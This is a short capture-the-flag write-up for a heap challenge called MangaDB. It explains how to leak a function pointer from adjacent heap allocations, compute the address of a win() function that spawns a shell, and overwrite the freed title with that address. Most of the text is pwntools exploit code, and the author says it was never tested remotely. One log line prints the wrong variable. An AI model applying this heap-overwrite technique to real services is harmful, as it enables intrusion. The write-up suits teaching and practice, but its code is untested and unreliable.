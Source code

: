 # MangaDB
Heap allocation vulnerability that I never got the chance to test remotely because the challenge was down for the whole CTF.

The application gave you the ability to create, edit, delete, and print anime/manga. When printing the anime/manga, it would call a function that was allocated next to the title.

There was also a function win() that called system("/bin/sh"). This was the goal.

The steps to solve were:

- Allocate 3 anime/manga structures (preferably all the same type so it's easier to calculate the pointer):
```
create("Z", "1") # type 1 = anime
create("X", "1")
create("L", "1")
```
- Edit one of the anime/manga, then print to leak the pointer and calculate the win() pointer from it
```
edit("X", "AAAA")
r.sendline("3") # 3 = print - I didn't make a function for this
p1 = x.find("Anime: L\nAnime: ")      
p2 = x.find("Anime: Z")
ptr = u64(x[p1+16:p2].ljust(8, b'\0')) # Carve pointer and pad it
log.info(f"print_anime pointer: {hex(ptr)}")
ptr_win = ptr - 0x1238 + 0x11E9
log.info(f"win pointer: {hex(ptr)}")
```
- Delete the anime/manga title that originally contained the pointer so we can write over it
```
delete("X")
```
- Create a new anime/manga with the title set to win()'s pointer, print again, and you have a shell
```
create(p64(ptr_win), "1")
r.sendline(b"3") # print, again
r.interactive()
```